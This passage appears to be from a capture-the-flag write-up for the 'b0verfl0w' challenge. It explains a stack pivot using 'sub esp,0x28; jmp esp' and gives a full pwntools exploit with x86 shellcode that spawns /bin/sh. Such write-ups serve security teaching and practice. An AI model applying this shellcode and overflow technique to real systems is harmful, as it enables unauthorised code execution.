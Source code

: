 

Then the last part of our payload changes how to set esp, you can know


- size(shellcode+padding)=0x20

- size(fake ebp)=0x4

- size(0x08048504)=0x4



So the last step we need to execute is


`` `asm
sub esp,0x28

jmp esp

```



So the last exp is as follows


```python

from pwn import *

sh = process('./b0verfl0w')



shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"

shellcode_x86 += "\x0b\xcd\x80"



sub_esp_jmp = asm('sub esp, 0x28;jmp esp')

jmp_esp = 0x08048504

payload = shellcode_x86 + (

    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)

sh.interactive()

```


